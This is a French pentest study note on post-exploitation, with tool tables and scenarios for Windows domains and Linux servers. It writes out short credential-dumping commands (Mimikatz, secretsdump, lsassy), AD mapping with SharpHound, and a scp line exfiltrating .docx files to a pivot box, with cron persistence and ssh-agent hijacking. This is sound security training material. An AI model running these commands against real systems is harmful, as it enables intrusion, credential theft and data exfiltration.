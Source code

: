 
## 🎯 Post-Exploitation

---

## Introduction

La phase de <span class="concept">post-exploitation</span> consiste à tirer profit d’un accès élevé (root, SYSTEM, Domain Admin) pour :

- Maintenir un accès persistant
- Étendre son contrôle (latéral ou vertical)
- Exfiltrer des données sensibles
- Préparer le reporting final

Cette étape requiert une grande rigueur : **en pentest pro, il faut minimiser l’impact métier**.

---

## Objectifs

- <span class="goal">Maintenir un accès durable (persistance)</span>
- <span class="goal">Explorer et extraire des données sensibles</span>
- <span class="goal">Évaluer l’exposition globale du SI</span>

---

## Outils & commandes

| Outil | Exemple & explication |
|-------|-----------------------|
| <span class="technology">Mimikatz</span> | <span class="example">lsadump::lsa /inject /name:</span> → extraction secrets Windows |
| <span class="technology">lsassy</span> | <span class="example">lsassy --hashes</span> → dump credentials |
| <span class="technology">secretsdump.py (Impacket)</span> | <span class="example">impacket-secretsdump target</span> |
| <span class="technology">BloodHound</span> | <span class="example">SharpHound.exe -c All</span> → cartographie de l’environnement AD |
| <span class="technology">CrackMapExec</span> | <span class="example">cme smb target --users</span> |
| <span class="technology">ssh-agent hijack</span> | <span class="example">volatilisation de sessions SSH actives</span> |
| <span class="technology">Rclone</span> | <span class="example">exfiltration discrète vers cloud</span> |
| <span class="technology">scp / rsync</span> | <span class="example">exfiltration via SSH contrôlé</span> |
| <span class="technology">Proxychains / Chisel</span> | <span class="example">pivot réseau vers segments internes</span> |

---

## Techniques principales

| Technique | Exemple |
|-----------|---------|
| <span class="concept">Persistence Windows</span> | scheduled tasks, registry run keys, service install |
| <span class="concept">Persistence Linux</span> | cronjobs, systemd, SSH key implant |
| <span class="concept">Credential dumping</span> | Mimikatz, lsassy, secretsdump |
| <span class="concept">Active Directory mapping</span> | BloodHound |
| <span class="concept">Data exfiltration</span> | Rclone, SCP, rsync |
| <span class="concept">Pivot / tunnel</span> | Chisel, Ligolo, Proxychains |

---

## Bonnes pratiques

- <span class="best-practice">Limiter les traces laissées sur la cible</span>
- <span class="best-practice">Ne pas exfiltrer de données sensibles réelles sans accord</span>
- <span class="best-practice">Logger toutes les actions post-exploitation</span>
- <span class="mitigation">En prod : ne jamais activer de persistance permanente</span>
- <span class="best-practice">Toujours vérifier les autorisations pour l’exfiltration</span>

---

## 🎯 Exemple de scénario

> <span class="note">🎯 Cible :</span> Domaine Windows avec accès Domain Admin

Actions :
- <span class="technology">secretsdump.py DC</span> → dump de tous les hashes du domaine
- <span class="technology">lsassy</span> → extraction de tokens Admin
- <span class="technology">BloodHound</span> → cartographie des trusts et chemins vers DA
- <span class="technology">Chisel</span> → pivot vers un subnet finance isolé
- <span class="technology">scp *.docx analyst@pivotbox</span> → exfiltration des fichiers sensibles
- Nettoyage des scheduled tasks créées

> <span class="note">🐧 Cible :</span> Linux serveur de bases de données

Actions :
- <span class="technology">cronjob implanté</span> → persistence pour retour ultérieur
- <span class="technology">ssh-agent hijack</span> → récupération d’accès admin
- <span class="technology">rsync</span> → exfiltration contrôlée des dumps SQL

---

## Cheatlist outils post-exploitation

| Cible | Outils clés |
|-------|------------|
| Windows | Mimikatz, lsassy, secretsdump, BloodHound, CME |
| Linux | LinPEAS post-exploit, ssh-agent hijack, cron abuse |
| Pivot | Chisel, Ligolo, Proxychains |
| Exfiltration | Rclone, rsync, scp, SMBClient |

---

## 🚀 Navigation

- 🚀 [[08_Password_Cracking]]
